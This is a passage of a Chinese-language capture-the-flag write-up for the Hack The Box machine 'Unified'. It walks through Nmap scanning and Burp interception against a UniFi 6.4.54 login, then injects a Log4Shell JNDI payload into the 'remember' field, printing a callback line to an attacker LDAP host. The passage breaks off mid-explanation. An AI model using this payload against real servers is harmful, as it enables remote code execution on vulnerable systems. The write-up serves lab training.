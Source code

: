 # Unified

### 前言

本篇WP探究在一个名为“UniFi”的网络应用监视系统中利用Log4j的影响。本次靶机会向您展示为利用Log4j漏洞，如何去建立和安装所需的软件包和工具。之后，我们会操纵一个名为remember的请求头来进行反弹shell。同时，靶机上还有一个MongoDb实例，通过修改保存在实例中的hash值，就可以改变管理员的密码，然后我们就可以访问管理员登陆面板了。最后，通过面板的信息泄露得到管理员的SSH密码。

### 信息收集

第一步是用Nmap扫描目标IP，并查看哪个端口是开放的。以下是Nmap各项参数项的简单解释：

```
-sC：使用默认的脚本集进行脚本扫描，等价于 --script=default
-sV：版本探测
-V：提升详细等级，这会使得Nmap在扫描过程中打印更多信息。
```

![](<../../../.gitbook/assets/image (9).png>)

扫描显示8080端口正运行着一个HTTP代理，该代理看起来会将请求重定向到8443端口，而8443端口应该是一个SSL web服务器。更具体地说，我们发现8443端口默认页面的HTTP标题是“UniFI Network”。

使用浏览器访问一下该页面，出现了一个“UniFI”登录页面，版本号是6.4.54，具体如下图所示：

![](<../../../.gitbook/assets/image (10).png>)

给出了软件名、软件版本号，那么我们比较好的思路就是用搜索引擎查询一下有无相关的漏洞存在。

谷歌搜索：UniFy 6.4.54 exploit。发现有一篇文章详细地谈论了和UniFy有关的一个漏洞，具体编号是CVE-2021-44228。该漏洞具体和Log4j有关，下面我们简要说明一下Log4j。

> 如果你想进一步学习Log4j漏洞，建议你参看[此篇](https://www.hackthebox.com/blog/Whats-Going-On-With-Log4j-Exploitation)文章。

![](<../../../.gitbook/assets/image (7).png>)

我们可通过注入操作系统命令来利用Log4J漏洞。Log4J漏洞是一种web安全漏洞，允许攻击者在运行着Log4J应用的服务器上执行任意的操作系统命令。通常情况下，通过利用Log4J漏洞，攻击者可以完全接管应用程序及其所有数据。

为了确定靶机是否存在Log4J漏洞，我们首先需要向 /api/login 处发送一个POST请求，随后使用类似于BurpSuite这样的工具拦截该请求并编辑请求注入Log4J的payload。如果你不知道如何拦截并修改web请求，可以参看[此处](https://academy.hackthebox.com/module/details/110)。

> 利用FoxyProxy可以便捷地将浏览器发送的请求传递给Burp

![](<../../../.gitbook/assets/image (11).png>)

首先，我们在登录页面随便输入一个账号密码然后点击提交，这时候会发起一个web请求，我们用burp拦截该请求。

在我们修改请求之前，可以先将该请求发送到Burp的Repeater模块，该操作对应的快捷键是CTRL+R。

### 漏洞利用

之前谷歌出来的文章告诉我们，需要将payload注入到remember参数中。因为POST的数据是通过JSON发送的，并且payload包含花括号，所以为了预防payload被解释成JSON对象，我们需要用双引号把payload闭合起来，这样它就是一个字符串了。

![](<../../../.gitbook/assets/image (8).png>)

如上图所示，将payload注入remember字段，若服务器回连到我们，那么就可以确认靶机存在漏洞。

```java
${jndi:ldap://{Tun0 IP Address}/whatever}
```

JNDI的全称是Java Naming and Directory Interface API。通过调用该API，应用程序可以定位到资源和其他程序对象。资源就是一个提供了到系统的连接的程序对象，比如数据库服务器和消息系统。

LDAP的
